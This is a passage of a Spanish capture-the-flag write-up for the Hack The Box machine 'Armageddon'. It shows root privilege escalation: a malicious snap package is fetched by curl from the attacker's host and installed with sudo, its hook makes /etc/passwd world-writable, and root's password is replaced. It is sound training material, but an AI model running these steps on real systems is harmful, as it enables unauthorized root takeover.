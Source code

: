 Busco en [GTFObins](https://gtfobins.github.io/){:target="\_blank"}{:rel="noopener nofollow"} y veo que podemos aprovecharnos de esto para escalar privilegios:

![navegador2](https://user-images.githubusercontent.com/67548295/127034345-c55f19eb-cfc5-401c-a716-1c5fbc7ed0e4.png)

Sigo los pasos en mi maquina para compilar el paquete de instalacion malicioso y lo transfiero a la maquina victima.

Lo ejecuto con los permisos de sudoers habilitados para mi usuario y consigo instalarlo

En este caso yo puse un comando para asignarle permisos full a /etc/passwd para poder sustituir la password de root

Una vez hecho esto podemos convertirnos en el usuario root y ver la flag root.txt:

```
[brucetherealadmin@armageddon tmp]$ curl http://10.10.14.169/xxxx_1.0_all.snap -o xxxx_1.0_all.snap

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4096  100  4096    0     0  27181      0 --:--:-- --:--:-- --:--:-- 27489

[brucetherealadmin@armageddon tmp]$ sudo /usr/bin/snap install xxxx_1.0_all.snap --dangerous --devmode

error: cannot perform the following tasks:
- Run install hook of "xxxx" snap if present (run hook "install": exit status 1)

[brucetherealadmin@armageddon tmp]$ ls -lah /etc/passwd
-rwxrwxrwx. 1 root root 974 jul 26 19:05 /etc/passwd

[brucetherealadmin@armageddon tmp]$ openssl passwd
Password: 
Verifying - Password: 
9HPZiB7Ar5uZM

[brucetherealadmin@armageddon tmp]$ vi /etc/passwd

[brucetherealadmin@armageddon tmp]$ su root
Contraseña: 

[root@armageddon tmp]# cat /root/root.txt 
5f8389XXXXXXXXXXXXXXXXXXXXXXXXX12
```

Sustituí en el /etc/passwd la "x" del usuario root por una contraseña que genere con openssl, para asi poder convertirme en usuario root.

Mas información sobre esto [aqui](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/){:target="\_blank"}{:rel="noopener nofollow"}

